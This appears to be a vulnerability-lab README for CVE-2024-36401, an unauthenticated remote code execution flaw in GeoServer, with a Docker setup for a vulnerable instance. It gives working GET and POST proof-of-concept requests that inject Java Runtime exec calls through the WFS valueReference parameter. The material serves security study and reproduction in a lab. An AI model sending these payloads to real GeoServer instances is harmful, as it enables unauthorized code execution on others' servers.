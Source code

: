 # GeoServer Unauthenticated Remote Code Execution in Evaluating Property Name Expressions (CVE-2024-36401)

[中文版本(Chinese version)](README.zh-cn.md)

GeoServer is an open-source software server written in Java that provides the ability to view, edit, and share geospatial data. It is designed to be a flexible, efficient solution for distributing geospatial data from a variety of sources such as Geographic Information System (GIS) databases, web-based data, and personal datasets.

In the GeoServer version prior to 2.25.1, 2.24.3 and 2.23.5 of GeoServer, multiple OGC request parameters allow Remote Code Execution (RCE) by unauthenticated users through specially crafted input against a default GeoServer installation due to unsafely evaluating property names as XPath expressions.

References:

- <https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv>
- <https://github.com/geotools/geotools/security/advisories/GHSA-w3pj-wh35-fq8w>
- <https://tttang.com/archive/1771/>
- <https://github.com/Warxim/CVE-2022-41852>

## Vulnerable environment

Execute following command to start a GeoServer server 2.23.2:

```
docker compose up -d
```

After server is started, you will see the default page of GeoServer at `http://your-ip:8080/geoserver`.

## Exploit

In the official [vulnerability announcement](https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv), you can find the following content:

> No public PoC is provided but this vulnerability has been confirmed to be exploitable through WFS GetFeature, WFS GetPropertyValue, WMS GetMap, WMS GetFeatureInfo, WMS GetLegendGraphic and WPS Execute requests.

For example, I gonna to use `GetPropertyValue` to execute evil xpath expression. refer to [official document](https://github.com/geoserver/geoserver/blob/2.23.2/doc/en/user/source/services/wfs/reference.rst), the GET method POC is:

```
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1') HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

The POST method POC is:

```
POST /geoserver/wfs HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')</wfs:valueReference>
</wfs:GetPropertyValue>
```

The familiar `java.lang.ClassCastException` error:

![](1.png)

As you can see, `touch /tmp/success1` and `touch /tmp/success2` are both executed successfully.

![](2.png)

It is important to mention that `typeNames` parameter must exist. You can find all the available Types on the web server without login:

![](3.png)
